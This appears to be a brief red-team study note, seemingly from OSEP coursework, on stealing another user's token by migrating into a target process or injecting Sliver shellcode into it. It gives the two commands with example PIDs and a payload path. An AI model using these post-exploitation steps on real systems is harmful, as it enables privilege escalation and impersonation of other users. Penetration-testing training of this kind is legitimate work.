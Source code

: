 # Steal Token

To steal token of some other user based on a running, either use migrate or execute-shellcode for that PID. Try and use migrate first and if it fails use the execute-shellcode as a fallback.

### 1) Migrate

    migrate -p 4792

### 2) Execute-shellcode

    execute-shellcode -S -r -I 30 -p 5096 /home/kali/OSEP/hav0c/sliver.x64.bin
